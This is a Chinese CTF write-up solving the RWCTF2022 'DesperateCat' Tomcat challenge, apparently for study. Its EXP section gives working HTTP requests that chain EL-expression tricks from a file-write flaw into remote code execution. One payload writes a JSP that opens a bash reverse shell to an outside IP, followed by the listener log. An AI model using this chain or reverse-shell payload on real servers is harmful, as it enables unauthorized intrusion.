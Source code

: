 # RWCTF2022-DesperateCat-Writeup



## 题目环境概述

环境是JDK8u311和tomcat9.0.56，需要rce，Servlet是一个任意写：

```java
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String dir = ParamUtil.getParameter(req, "dir");
        String fileName = ParamUtil.getParameter(req, "filename");
        String content = ParamUtil.getParameter(req, "content");
        if (StringUtil.isEmpty(content)) {
            this.outputMsg(resp, "Empty content");
        } else {
            if (!StringUtil.isEmpty(fileName) && fileName.indexOf(46) >= 0) {
                String fileExt = fileName.substring(fileName.lastIndexOf(46) + 1);
                fileName = StringUtil.randomStr() + "." + fileExt;
            } else {
                fileName = StringUtil.randomStr();
            }

            File saveFile;
            if (StringUtil.isEmpty(dir)) {
                saveFile = new File(this.exportDir, fileName);
            } else {
                saveFile = new File(this.getServletContext().getRealPath("/"), dir + File.separator + fileName);
            }

            String data = "DIRTY DATA AT THE BEGINNING " + content + " DIRTY DATA AT THE END";
            this.writeBytesToFile(saveFile, data.getBytes(StandardCharsets.UTF_8));
            this.outputMsg(resp, saveFile.getAbsolutePath());
        }
    }
```



但是将会有如下的替换：

```java
    private static final String[] SPECIAL_CHARS = new String[]{"&", "<", "'", ">", "\"", "(", ")"};
    private static final String[] REPLACE_CHARS = new String[]{"&amp;", "&lt;", "&#39;", "&gt;", "&quot;", "&#40;", "&#41;"};
```



## 官方解法

对于tomcat环境很容易想到jsp和EL表达式，对于EL表达式中的POC：

```java
${Runtime.getRuntime().exec(param.cmd)}
```

可以绕过`<%%>`，但是存在了括号，仍然不行。

接下来就是一堆nb trick的学习了。

首先是tomcat的session持久化：

> 对于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载 时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为 Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实 现可序列化接口（java.io.Serializable）的原因了。
>
>   当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些 HttpSession对象从内存中转移到文件系统或数据库中，在需要访问 HttpSession信息时再把它们加载到内存中。

> 默认配置下，Tomcat 在关闭服务的时候，会将用户 Session 中的数据以序列化的形式持久存储到本地，这样下次 Tomcat 再启动的时候，能够从本地存储的 Session 文件中恢复先前的 Session 数据内容，避免造成用户 Session 还未到期就由于服务重启而失效。



默认存放在`work 应用目录下的 SESSIONS.ser`。

通过EL表达式可以修改这个存储文件的位置：

```java
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

然后通过EL表达式往session里面写东西：

```java
${sessionScope[param.b]=param.c}
```

这样如果tomcat停止服务后，就会往可控的文件中写入我们可控的内容。



但是肯定没法控制tomcat停止服务。。。官方文档中说程序触发`reload`也可以。



程序`reload`满足的条件：

1. Context reloadable 配置为 true（默认是 false）；
2. /WEB-INF/classes/ 或者 /WEB-INF/lib/ 目录下的文件发生变化。



第一点用EL修改：

```java
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
```



第二点具体是这样：

- /WEB-INF/classes/ 下已加载过的 class 文件内容发生了修改；
- /WEB-INF/lib/ 下已加载过的 jar 文件内容发生了修改，或者写入了新的 jar 文件。

往`/WEB-INF/lib/`下面写个jar文件即可触发reload。

但是因为随便写入的jar包肯定不是正规的jar包，导致程序reload失败，直接挂了。

但是可以通过修改`appBase`目录，这个也就是我们默认的`webapps`。

如果把它修改成`/`，这样就可以访问整个文件系统，也就不局限于之前的那个文件夹了，可以往`/tmp`下面写了。

### EXP

先写入EL表达式：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export

filename=1.jsp&content=
%24%7BpageContext.servletContext.classLoader.resources.context.manager.pathname%3Dparam.a%7D%0A%24%7BsessionScope%5Bparam.b%5D%3Dparam.c%7D%0A%24%7BpageContext.servletContext.classLoader.resources.context.reloadable%3Dtrue%7D%0A%24%7BpageContext.servletContext.classLoader.resources.context.parent.appBase%3Dparam.d%7D
```

然后触发，使得reload之后能往`/tmp/session.jsp`里面写反弹shell：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export/b00dd97fd5f740bfbb73dce9ae58078e.jsp

a=/tmp/session.jsp&b=feng&c=%3C%25Runtime.getRuntime().exec(new%20String%5B%5D%7B%22%2Fbin%2Fbash%22%2C%20%22-c%22%2C%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F121.5.169.223%2F39876%200%3E%261%22%7D)%3B%25%3E&d=/
```

最后往`./WEB-INF/lib`下面写个jar文件：

```
http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/export

dir=./WEB-INF/lib/&filename=1.jar&content=1
```

再访问`http://1e30899e-bf6d-46db-bf05-a1eba79f7d59.node4.buuoj.cn:81/tmp/session.jsp`即可触发反弹shell：

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39876
Listening on [0.0.0.0] (family 0, port 39876)
Connection from 117.21.200.166 45861 received!
sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
sys
tmp
usr
var
$ /readflag
flag{121a8166-c375-40f3-802a-1bdef43f18d2}

```



## 非预期

直接往`./WEB-INF/lib/`下面写一个ascii范围在0-127的jar包，把jsp马放到jar包的`META-INF/resources/`下面即可通过WEB直接访问。

具体可以参考回忆飘如雪师傅的文章：

https://mp.weixin.qq.com/s/V5UzhjWKgB7_cAJWer8mZg

不过jar构造那里我确实没看太懂。。。。





## 总结

全是没见过的思路，学习了。。。以后有空一定把jar包构造那部分好好学学。











